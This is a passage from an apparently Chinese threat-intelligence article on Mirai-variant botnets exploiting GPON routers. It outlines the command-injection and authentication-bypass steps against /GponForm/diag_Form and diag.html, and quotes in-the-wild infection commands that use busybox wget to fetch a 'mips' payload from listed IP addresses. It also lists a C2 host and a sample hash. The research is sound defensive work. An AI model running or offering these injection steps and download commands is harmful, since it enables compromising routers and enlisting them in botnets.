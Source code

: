 步骤1(行5)：将注入的命令发送至/GponForm/diag_Form并被执行。

步骤2(行9)：利用绕过漏洞访问diag.html页面获取命令执行的结果。

关键点在第二步：

当我们不使用grep diag_result去过滤返回的结果，将会发现部分路由器会将diag_host也一并返回。而参数diag_host就是步骤1中注入的命令。<br>[![](https://p3.ssl.qhimg.com/t01699dc75dedef7391.png)](https://p3.ssl.qhimg.com/t01699dc75dedef7391.png)

这就意味着，通过ZoomEye网络空间搜索引擎，我们可以监控互联网上相关路由器的diag.html页面，从而了解僵尸网络的活动情况。



## 0x01 被利用情况

ZoomEye网络空间搜索引擎在2018/05/05、2018/05/07、2018/05/08进行了三次探测，一共发现了与僵尸网络相关的命令 12处。

### 一. 被利用情况总览

### [![](https://p4.ssl.qhimg.com/t0186101de128b9c6ae.png)](https://p4.ssl.qhimg.com/t0186101de128b9c6ae.png)<br>
二. 详细介绍
<li>Mirai变种僵尸网络 THANOS<br>
这是一个在我们研究前撤退、研究时重新归来的僵尸网络<br>
使用的感染命令如下：<br>
编号1 busybox wget [http://104.243.44.250/mips](http://104.243.44.250/mips) -O /tmp/m<br>
编号10 busybox wget [http://82.202.166.101/mips](http://82.202.166.101/mips) -O –</li>
1.1 104.243.44.250 样本<br>
在我们发现相关攻击痕迹时，样本已无法下载。看起来就像始作俑者已经撤退。<br>[![](https://p3.ssl.qhimg.com/t013f7c7283b3b12387.jpg)](https://p3.ssl.qhimg.com/t013f7c7283b3b12387.jpg)

但是我们仍然从路由器上运行的样本中了解到该僵尸网络的行为：

· 当前进程<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a57780239fa99aa6.png)

· 网络连接情况<br>[![](https://p0.ssl.qhimg.com/t01db05b44e4ceb2d24.png)](https://p0.ssl.qhimg.com/t01db05b44e4ceb2d24.png)

· CNC<br>
82.202.166.101:45,2018/05/05未连接成功（2018/05/09发现该CNC重新打开）<br>[![](https://p5.ssl.qhimg.com/t011893d1f6edd73b0f.png)](https://p5.ssl.qhimg.com/t011893d1f6edd73b0f.png)

由于该恶意样本拥有生成随机进程名、对外爆破23端口等特征，故可能是Mirai僵尸网络或其变种。

1.2 82.202.166.101 样本



### <a class="reference-link" name="sha256sum%2082.202.166.101/mips"></a>sha256sum 82.202.166.101/mips

94717b25e400e142ce14305bf707dfcfe8327986fa187a2c5b32b028898a39ec 82.202.166.101/mips<br>
2018/05/07，我们发现了少量该样本的感染痕迹，通过进一步研究，我们认为该僵尸网络已经回归。 由于该样本直接在 1.1 中的 CNC 主机上传播，运行时依旧会生成随机进程名，对外爆破23端口，故我们将两者归为同一僵尸网络家族。
